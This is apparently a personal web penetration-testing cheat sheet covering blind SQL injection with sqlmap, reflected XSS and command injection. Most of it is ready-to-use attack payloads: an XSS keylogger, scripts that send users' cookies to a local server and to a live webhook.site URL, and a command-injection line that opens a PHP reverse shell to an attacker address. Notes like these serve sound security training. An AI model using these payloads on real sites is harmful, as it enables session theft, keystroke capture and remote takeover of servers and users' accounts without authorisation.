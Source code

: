 **Blind SQL Injection** - sqlmap
1. Copy and save the request
2. run sqlmap
```bash
# for cookie, we have to set level to 2
sqlmap -r req.txt --level=2
```

### XSS
**Reflected**
The script you want to inject gets returned as a response

**common injection** - Key stroke
```bash
- use fetchapi to send user keyboard input
function logkey(event){some_api(event.key)}
document.addEventListener('keydown', logkey)
```

**Common injection** - img tag onerror attribute
```bash
<img src=x onerror="windows.location.replace('https://www.naver.com')" />
```

**Common injection** - steal user cookie using https://webhook.site
```bash
# GET
First fire up your python server
python3 -m http.server 4444
<script>let i=new Image; i.src="http://127.0.0.1:4444/?"+document.cookie;</script>

# POST
<script>
let cookie = {"cookie": document.cookie}; fetch("https://webhook.site/363b58b8-0971-460c-bd9d-74c99e9a3f61", {method: "POST", body: JSON.stringify(cookie), headers: {"Content-Type": "application/x-www-form-urlencoded"}})
</script>
```

### Command Injection
- eval - eval is evil
- Can you chain the command?
- Can we add something

****
```bash
# use # to ignore the rest
https://tcm-sec.com; whoami; #

# Get reverse shell
1. check what we can use
https://tcm-sec.com; which php; #
https://tcm-com.com; php -r '$sock=fsockopen("eth0.ip.add.ress",4444);exec("/bin/sh -i <&3 >&3 2>&3");'; #
```
